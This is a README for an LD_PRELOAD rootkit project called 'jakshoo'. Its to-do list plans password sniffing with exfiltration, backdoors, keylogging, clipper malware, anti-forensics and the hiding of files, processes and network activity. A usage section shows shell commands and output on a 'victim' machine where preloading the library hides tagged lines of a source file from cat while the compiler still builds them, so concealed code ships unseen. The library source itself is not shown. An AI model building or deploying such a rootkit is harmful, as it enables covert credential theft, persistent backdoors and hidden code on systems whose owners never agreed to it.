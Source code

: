 # jakshoo
LD_PRELOAD rootkit

## To-do

- [ ] PAM sniffing (Get SSH, LDAP, etc.. passwords) / Remote exfiltration
- [ ] File content tampering
- [ ] Anti-debugging / Anti-forensics
- [ ] File hiding
- [ ] Network hiding
- [ ] Process hiding
- [ ] backdoor (blind / reverse)
- [ ] clipper malware
- [ ] rootkit cloaking
- [ ] keylogging

## Usage
### File content tampering
### Current state: 
- Done with stack based binaries, issues with data stored on heap
- To-do: hook implementations for `libstdc++.so.6`

Hide file contents by using tags.

Real file:
```
[victim:~]$ cat test.c                                                                                                                   
#include <stdio.h>
int main(){
	//obfuscate_start
	printf("this is code");
	//obfuscate_stop
	return 0;
}

```

Tampered file:
```
[victim:~]$ export LD_PRELOAD=./libjakshoo.so                                                                                               
[victim:~]$ cat test.c                                                                                                                     
#include <stdio.h>
int main(){
	return 0;
}
[victim:~]$ gcc test.c -o test                                                                                                           
[victim:~]$ ./test                                                                                                                       
this is code%  
```
